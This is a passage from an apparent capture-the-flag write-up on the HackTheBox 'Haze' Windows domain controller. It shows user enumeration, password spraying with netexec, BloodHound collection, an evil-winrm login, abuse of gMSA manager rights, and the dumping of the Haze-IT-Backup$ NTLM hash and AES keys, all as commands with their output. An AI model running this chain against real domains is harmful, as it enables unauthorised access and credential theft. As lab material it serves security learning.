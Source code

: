 ```bash
SMB                      10.10.11.61     445    DC01             1000: HAZE\DC01$ (SidTypeUser)
SMB                      10.10.11.61     445    DC01             1103: HAZE\paul.taylor (SidTypeUser)
SMB                      10.10.11.61     445    DC01             1104: HAZE\mark.adams (SidTypeUser)
SMB                      10.10.11.61     445    DC01             1105: HAZE\edward.martin (SidTypeUser)
SMB                      10.10.11.61     445    DC01             1106: HAZE\alexander.green (SidTypeUser)
SMB                      10.10.11.61     445    DC01             1111: HAZE\Haze-IT-Backup$ (SidTypeUser)
```

And the password from paul also works on `mark.adams`:
```bash
netexec ldap haze.htb -u users.txt -p 'Ld@p_Auth_Sp1unk@2k24' --continue-on-success
SMB         10.10.11.61     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:haze.htb) (signing:True) (SMBv1:False)
LDAP        10.10.11.61     389    DC01             [+] haze.htb\mark.adams:Ld@p_Auth_Sp1unk@2k24
```

Let's try bloodhound with mark, maybe it shows all the users now.
```bash
bloodhound-ce-python -c All -u mark.adams -p 'Ld@p_Auth_Sp1unk@2k24' -ns $(cat ip.txt) --zip -d haze.htb -dc dc01.haze.htb
```

Now it shows a little more, I am not sure why.
![haze4](/assets/img/haze4.png)

Mark is a member of gmsa managers. Maybe he can get control of `haze-it-backup$`. That seems to be the only gmsa account. He also has access to winrm. So we do:
```bash
evil-winrm -i $(cat ip.txt) -u 'mark.adams' -p 'Ld@p_Auth_Sp1unk@2k24'
Set-ADServiceAccount -Identity Haze-IT-Backup -PrincipalsAllowedToRetrieveManagedPassword mark.adams
python ~/workspace/programs/gMSADumper/gMSADumper.py -u 'mark.adams' -p 'Ld@p_Auth_Sp1unk@2k24' -d haze.htb
# Haze-IT-Backup$:::4de830d1d58c14e241aff55f82ecdba1
# Haze-IT-Backup$:aes256-cts-hmac-sha1-96:358dce76ff37bd5baa337ae9491ce3d6c3af66af50cad9296c5ed61d3a79c283
# Haze-IT-Backup$:aes128-cts-hmac-sha1-96:daa6af62b0781111393c8b1cb7812c8a
```
